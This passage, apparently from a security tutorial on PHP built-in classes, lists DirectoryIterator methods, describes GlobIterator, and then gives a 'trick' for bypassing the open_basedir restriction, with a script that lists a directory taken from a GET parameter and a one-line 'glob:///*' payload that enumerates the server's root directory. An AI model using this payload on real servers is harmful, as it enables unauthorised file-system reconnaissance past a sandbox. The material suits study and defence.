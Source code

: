 ```php
public DirectoryIterator::getInode(): int
public DirectoryIterator::getMTime(): int
public DirectoryIterator::getOwner(): int
public DirectoryIterator::getPath(): string
public DirectoryIterator::getPathname(): string
public DirectoryIterator::getPerms(): int
public DirectoryIterator::getSize(): int
public DirectoryIterator::getType(): string
public DirectoryIterator::isDir(): bool
public DirectoryIterator::isDot(): bool
public DirectoryIterator::isExecutable(): bool
public DirectoryIterator::isFile(): bool
public DirectoryIterator::isLink(): bool
public DirectoryIterator::isReadable(): bool
public DirectoryIterator::isWritable(): bool
public DirectoryIterator::key(): int|false
public DirectoryIterator::next(): void
public DirectoryIterator::rewind(): void
public DirectoryIterator::seek(int $offset): void
public DirectoryIterator::__toString(): string
public DirectoryIterator::valid(): bool
}
```
<img src="./images/14.png" alt="">

#### GlobIterator Class
> Similar to the functions of the first two classes, the `GlobIterator` class can also traverse a file directory, and its usage method is basically similar to the first two classes, but slightly different from the above is that its behavior is similar to `glob()`, and the file path can be found through pattern matching.

<img src="./images/15.png" alt="">

<img src="./images/16.png" alt="">

#### trick: Use the traversable directory class to bypass open_basedir
> Using the DirectoryIterator class

```php
<?php
$dir = $_GET['whoami'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// It is also OK to not add __toString(), because echo can be called automatically
}
?>

# payload in the form of a sentence:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```
